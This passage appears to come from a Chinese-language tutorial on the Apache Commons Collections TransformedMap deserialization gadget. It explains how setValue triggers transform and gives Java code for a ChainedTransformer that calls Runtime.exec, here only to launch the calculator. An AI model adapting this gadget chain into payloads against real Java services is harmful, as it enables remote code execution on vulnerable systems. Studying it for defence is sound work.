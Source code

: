 注：AbstractInputCheckedMapDecorator parent会在TransformedMap生成时初始化，因为AbstractInputCheckedMapDecorator是TransformedMap的父类。调用parent.checkSetValue方法就是调用TransfromedMap类的checkSetValue方法。

TransformedMap类的checkSetValue方法：

```
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```

注：最终在这里会调用transform方法。

执行过程如下：

获取包装好的Map对象，通过Map.Entry获取Entry对象，由该对象调用setValue方法间接的执行相应的transform方法。

4）TransformerMap类实现上面的实例

```
public static void main(String[] args) {
    Transformer transform = new InvokerTransformer("append",new Class[]{String.class},new Object[]{"exploitcat?"});
    
    Map<String,String> innerMap = new HashMap<String,String>() ;
    innerMap.put("name", "hello") ;//保证不空即可
    Map outerMap = TransformedMap.decorate(innerMap, null, transform) ;
    
    Map.Entry elEntry = (Entry) outerMap.entrySet().iterator().next() ;
    elEntry.setValue(new StringBuffer("your name is ")) ;
        
    System.out.println(elEntry.getValue());
}
//输出your name is exploitcat?
```

5）利用TransformerMap程序执行

实现调用系统的计算器

```
public static void main(String[] args) {
    Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),//Runtime类
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", new Class[0]}),//获取Runtime类的getRuntime方法的Method对象
        new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, new Object[0]}),//调用该方法获取Runtime实例（Method.invoke）
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})//执行命令
    };
    Transformer chain = new ChainedTransformer(transformers) ;
    Map innerMap = new HashMap() ;
    innerMap.put("name", "hello") ;
    Map outerMap = TransformedMap.decorate(innerMap, null, chain) ;
 
    Map.Entry elEntry = (Entry) outerMap.entrySet().iterator().next() ;
    elEntry.setValue("hello") ;
}
//运行上面的程序会自动调用系统的计算器
```

